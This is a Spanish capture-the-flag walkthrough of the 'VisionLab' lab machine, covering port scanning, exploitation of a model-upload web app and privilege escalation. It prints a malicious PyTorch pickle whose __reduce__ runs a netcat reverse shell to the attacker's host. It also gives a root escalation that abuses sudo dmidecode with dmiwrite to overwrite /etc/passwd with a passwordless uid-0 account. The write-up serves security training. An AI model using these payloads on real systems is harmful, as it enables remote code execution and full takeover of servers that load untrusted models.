



## Table of contents

## Enumeración

La máquina VisionLab tiene la ip **10.0.2.69**

### Descubrimiento de Puertos

Vamos a empezar enumerando todos los puertos abiertos de la máquina, así como los servicios y las versiones que se están ejecutando en ellos mediante la herramienta **nmap**.

```bash
nmap -sS -p- --open -sCV --min-rate 5000 -n -Pn 10.0.2.69

Host is up (0.0016s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 10.0p2 Debian 7+deb13u4 (protocol 2.0)
8000/tcp open  http    Uvicorn
|_http-title: VisionLab \xE2\x80\x94 Object Detection
|_http-server-header: uvicorn
```

### Puerto 8000 (Web)

Accedemos con el navegador al puerto 8000 y vemos una web. En ella podemos analizar imágenes con un modelo predeterminado de **PyTorch** o usar el nuestro.




## Explotación
### PyTorch Model Code Execution

Vamos a generar un modelo básico con **PyTorch** el cual nos enviará una reverse shell una vez se ejecute.

**PyTorch** es una de las librerías de **Machine Learning** e **Inteligencia Artificial** más populares escritas en Python.

Para ello, creamos un entorno virtual con python3, lo activamos e instalamos torch.

```bash
python3 -m venv venv

source venv/bin/activate

pip3 install torch
```

**Nota:** Se nos instalarán unos 4.6GB aproximadamente, así que cuidado si no se dispone de espacio suficiente.


Una vez instaladas las depedencias, creamos el script.py que nos va a generar nuestro modelo. 

```python
import torch
import os

class EvilClass:
    def __reduce__(self):
        evil_command = (os.system, ('nc 10.0.2.61 4444 -e /bin/bash',))
        return evil_command

evil_obj = EvilClass()
torch.save(evil_obj, 'model.pt')
```

Ejecutamos `python3 script.py` y nos genera nuestro `model.pt`.

Nos ponemos en escucha con **netcat**.

```bash
nc -nlvp 4444
```

Subimos nuestro modelo, seleccionamos una de las imágenes de prueba y le damos a "**Analyze Image**".




Recibimos una shell como el usuario **vision**.

```bash
vision@VisionLab:~$ ls -la
total 36
drwx------  5 vision vision 4096 ago 13 18:44 .
drwxr-xr-x  3 root   root   4096 jul 30 21:35 ..
-rw-r--r--  1 vision vision  220 jul 30 21:35 .bash_logout
-rw-r--r--  1 vision vision 3684 ago  1 14:24 .bashrc
drwxrwxr-x  3 vision vision 4096 jul 30 21:58 .cache
drwx------  3 vision vision 4096 ago  1 14:07 .local
-rw-r--r--  1 vision vision  807 jul 30 21:35 .profile
drwxrwxr-x 14 vision vision 4096 jul 31 20:55 .pyenv
-rw-r-----  1 root   vision   33 ago  1 14:07 user-48Jj1Lw.txt
```

## Escalada de Privilegios
### Root

Si tratamos de listar los permisos sudoers de nuestro usuario nos reporta un error.

```bash
vision@VisionLab:~$ sudo -l
sudo: The "no new privileges" flag is set, which prevents sudo from running as root.
sudo: If sudo is running in a container, you may need to adjust the container configuration to disable the flag.
```

Para evitarlo, vamos a generar un par de llaves **SSH** y a conectarnos con ellas:

Generamos las llaves.

```bash
vision@VisionLab:~$ ssh-keygen 

```

Copiamos el contenido de la llave pública a un archivo llamado **authorized_keys**.

```bash
cp id_ed25519.pub authorized_keys
vision@VisionLab:~/.ssh$ ls -la
total 20
drwx------ 2 vision vision 4096 ago 13 18:45 .
drwx------ 6 vision vision 4096 ago 13 18:45 ..
-rw------- 1 vision vision   98 ago 13 18:45 authorized_keys
-rw------- 1 vision vision  411 ago 13 18:45 id_ed25519
-rw------- 1 vision vision   98 ago 13 18:45 id_ed25519.pub
```

Nos copiamos la llave privada a nuestra máquina, le damos permisos 600 y nos conectamos con ella.

```bash
chmod 600 vision_key

ssh -i vision_key vision@10.0.2.69
```                                                                                             

Ahora sí podemos listar los permisos sudoers.

```bash
vision@VisionLab:~$ sudo -l
Matching Defaults entries for vision on VisionLab:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User vision may run the following commands on VisionLab:
    (ALL) NOPASSWD: /usr/sbin/dmidecode
```

Podemos ejecutar como cualquier usuario sin proporcionar contraseña **dmidecode**.

**Dmidecode** es una herramienta de líneas de comando que permite consultar el hardware físico de un dispositivo desde el sistema operativo.

Para abusar de esta herramienta vamos a emplear este repositorio de **adamreiser**.

- https://github.com/adamreiser/dmiwrite

Nos lo clonamos y compilamos.

```bash
git clone https://github.com/adamreiser/dmiwrite

cd dmiwrite

make dmiwrite
```

Ahora tenemos que copiarnos a nuestra máquina el **/etc/passwd** de la máquina víctima y añadirle un nuevo usuario, **hacked**, que no necesitará contraseña y tendrá privilegios de root.

Este passwd modificado lo llamamos **passwd.in**

```bash
echo 'hacked::0:0:root:/root:/bin/bash' >> passwd.in
```

De modo que el archivo queda así:

```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
dhcpcd:x:100:65534:DHCP Client Daemon:/usr/lib/dhcpcd:/bin/false
systemd-timesync:x:991:991:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:990:990:System Message Bus:/nonexistent:/usr/sbin/nologin
sshd:x:989:65534:sshd user:/run/sshd:/usr/sbin/nologin
vision:x:1000:1000:vision,,,:/home/vision:/bin/bash
hacked::0:0:root:/root:/bin/bash
```

Empleamos **dmiwrite** para que a partir del passwd que hemos modificado nos genere un archivo **dmi** que pueda ser empleado por **dmidecode**. 

```bash
./dmiwrite passwd.in passwd.dmi

Wrote payload of length 1264 to passwd.dmi
Padding 981776 bytes to passwd.dmi
        Setting checksum: memset(buf+30, 115, 1);
Wrote DMI header of length 32 to passwd.dmi
Padding 65536 bytes to passwd.dmi
Congratulations, passwd.dmi looks like a valid DMI file.
``` 

Transferimos el archivo a la máquina mediante **scp**.

```bash
scp -i vision_key  passwd.dmi vision@10.0.2.69:/home/vision/passwd.dmi
```

Y ejecutamos **dmidecode** para que extragia el contenido de nuestro **passwd** modificado y lo guarde en el **passwd** del servidor.

```bash
sudo /usr/sbin/dmidecode --no-sysfs -d passwd.dmi --dump-bin /etc/passwd

# dmidecode 3.4
Scanning passwd.dmi for entry point.
SMBIOS 2.1 present.
1 structures occupying 1264 bytes.
Table at 0x00000000.

# Writing 1264 bytes to /etc/passwd.
# Writing 0 bytes to /etc/passwd.
/etc/passwd: fwrite: No such file or directory
```

A pesar de ese mensaje de error hemos modificado el **passwd**.

Nos convertirmos en el nuevo usuario **hacked**, sin necesidad de contraseña y ya somos **root**.

```bash
vision@VisionLab:~$ su hacked

hacked@VisionLab:/home/vision# id
uid=0(hacked) gid=0(root) grupos=0(root)
hacked@VisionLab:/home/vision# ls -la /root
total 44
drwx------  5 hacked root 4096 ago  1 16:20 .
drwxr-xr-x 18 hacked root 4096 jul 30 21:34 ..
-rw-------  1 hacked root  307 ago  1 16:20 .bash_history
-rw-r--r--  1 hacked root  633 ago  1 14:24 .bashrc
drwxrwxr-x  3 hacked root 4096 jul 30 21:57 .cache
-rw-------  1 hacked root   20 ago  1 02:37 .lesshst
drwx------  3 hacked root 4096 jul 31 20:42 .local
-rw-r--r--  1 hacked root  132 ago 24  2025 .profile
-rw-------  1 hacked root   12 jul 31 21:10 .python_history
-r--------  1 hacked root   33 ago  1 14:27 root.txt
drwx------  2 hacked root 4096 ago  1 16:41 .ssh
```